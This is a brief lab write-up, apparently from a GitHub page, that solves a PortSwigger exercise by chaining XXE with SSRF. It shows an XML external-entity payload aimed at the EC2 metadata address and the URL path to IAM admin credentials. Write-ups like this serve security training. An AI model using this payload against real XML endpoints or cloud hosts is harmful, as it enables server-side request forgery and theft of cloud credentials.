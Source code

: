# Portswigger XXE-Lab 2

## Exploiting XXE to perform SSRF attacks

In this lab we are told to perfrom XXE and chaing it with SSRF to access ec2 instance's meta-data to retrieve iam admin credentials , the `checkstock` is vulnerable to XXE as it's parsing data in XML format

<img src="https://i.imgur.com/bq4tglm.png"/>

<img src="https://i.imgur.com/ULFHsIF.png"/>

So here let's use burpsuite to capture the request

<img src="https://i.imgur.com/iYWTtja.png"/>

To perform XXE attack , we need to declare an external entity

```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE test [<!ENTITY arz SYSTEM "http://169.254.169.254/"> ]>
<stockCheck>			   	
     <productId>
		14
	</productId>
	<storeId>
		1
	</storeId>
</stockCheck>
```

<img src="https://i.imgur.com/naEFY0j.png"/>

This is expecting `latest` so let's add that 

<img src="https://i.imgur.com/R05obzK.png"/>

Now it expects `meta-data` so in this way we can find the endpoints 

<img src="https://i.imgur.com/te36Pld.png"/>

And enventually we'll find `iam` credentials

`http://169.254.169.254/latest/meta-data/iam/security-credentials/admin`
